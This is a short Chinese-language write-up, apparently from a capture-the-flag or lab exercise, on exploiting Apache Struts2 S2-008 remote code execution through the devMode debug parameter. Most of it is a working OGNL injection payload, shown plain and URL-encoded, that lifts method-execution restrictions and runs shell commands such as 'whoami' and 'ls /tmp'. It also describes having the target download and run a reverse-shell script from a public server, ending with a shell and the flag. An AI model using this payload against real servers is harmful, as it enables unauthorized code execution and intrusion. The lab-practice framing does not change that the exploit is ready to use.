

Struts2 远程代码执行 (s2-008)

有cve，直接github找利用脚本，这里github上扫描工具打不成功，于是查询exp，手动打。有了打s2-061的经验，于是，公网搭建http服务器，写入反弹shell脚本，命令执行让目标下载执行。

在 devMode 模式下直接添加参数 `?debug=command&expression=` 会直接执行后面的 OGNL 表达式.

payload：

\#context[*"xwork.MethodAccessor.denyMethodExecution"*]=false,#f=#_memberAccess.getClass().getDeclaredField(*"allowStaticMethodAccess"*),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec(*"whoami"*).getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#genxor=#context.get(*"com.opensymphony.xwork2.dispatcher.HttpServletResponse"*).getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()

因为有#号 所以需要url编码

修改payload为 ls /tmp

编码为：

%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22ls%20%2Ftmp%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()

成功拿到shell 和flag